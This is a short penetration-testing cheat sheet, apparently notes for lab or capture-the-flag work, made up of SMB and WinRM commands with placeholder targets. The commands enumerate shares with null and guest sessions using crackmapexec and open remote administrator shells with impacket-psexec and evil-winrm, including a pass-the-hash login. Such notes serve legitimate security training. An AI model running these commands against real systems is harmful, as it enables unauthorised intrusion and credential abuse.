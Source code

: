 

Add domain NB name to /etc/hosts

```shell
crackmapexec smb $TARGET_IP -u '' -p ''
```

Show all files and DIRs for guest:

```shell
crackmapexec smb $TARGET_IP -u 'guest' -p '' -M spider_plus
```

Parse the JSON from the previous cmd into readable form:

```shell
cat $TARGET_IP.json | jq '. |map_values(keys)'
```

Try to connect to console:

```shell
impacket-psexec $USER@$TARGET_IP
```

```shell
evil-winrm -i $TARGET_IP -u administrator -p $PASSWORD
```

```shell
evil-winrm -i $TARGET_IP -u administrator -H $HASH
```

```sh
crackmapexec winrm $TARGET_IP -u $USER -p $PASSWORD
```